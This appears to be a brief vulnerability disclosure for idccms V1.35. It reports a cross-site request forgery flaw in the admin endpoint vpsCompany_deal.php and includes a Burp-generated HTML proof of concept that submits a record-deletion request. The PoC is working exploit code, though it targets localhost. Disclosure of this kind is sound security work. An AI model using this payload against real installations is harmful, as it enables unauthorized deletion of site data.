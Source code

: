 
target:http://idccms.com/
version: V1.35

idccms V1.35 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/vpsCompany_deal.php?mudi=del&dataType=&dataTypeCN=%E4%B8%8A%E7%BA%A7%E6%B8%A0%E9%81%93%E5%95%86&theme=cs1&dataID=33

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/vpsCompany_deal.php?mudi=del&dataType=&dataTypeCN=%E4%B8%8A%E7%BA%A7%E6%B8%A0%E9%81%93%E5%95%86&theme=cs1&dataID=33" method="POST">
      
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
